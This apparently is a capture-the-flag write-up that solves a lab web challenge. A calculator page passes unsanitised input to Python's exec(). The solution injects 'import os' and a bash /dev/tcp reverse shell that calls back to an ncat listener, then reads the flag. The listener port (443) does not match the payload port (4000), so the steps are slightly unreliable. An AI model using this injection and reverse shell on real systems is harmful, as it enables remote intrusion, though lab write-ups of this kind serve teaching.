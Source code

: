 # clays-magic-funhouse-ctf Writeup

Hint(s):

- `Visit the robots.txt page to get a list of sites`
- `The calculator page is vulnerable, how does it perform calculations? How can code be injected into the prompt?`
- `0; import os`
- `Use ncat to start a reverse shell`


## Solution

1. Goto CTF URL, for solution purposes let's say 127.0.0.1:5000, but it will be different when it's actually ran.
2. Navigate to 127.0.0.1:5000/robots.txt. This will itemize the pages on the website. Go through each page.
3. The calculator page is the vulnerable page. The input is ran through the exec() function without sanatization
4. Type "0;import os" in the textbox and submit.
5. In a terminal, determine your ip, i'll use 10.0.0.1 but of course it will be something different.
6. Listen for a remote connection
```
sudo ncat -nvlp 443
[sudo] password for claythess: 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```
7. On the calculator textbox, run 
```
0;os.system('/bin/bash -c "/bin/sh -i >& /dev/tcp/10.0.0.1/4000 0>&1"')"
```
8. This will connect to your remote shell listener in your terminal instance
9. ls, and cat flag.txt to find the flag

Flag: 
```
I want to have time to look for my children, and see how many of them I can find. 
Maybe I shall find them among the dead. 
Hear me, my Chiefs! I am tired; my heart is sick and sad. 
From where the sun now stands I will fight no more forever.
```
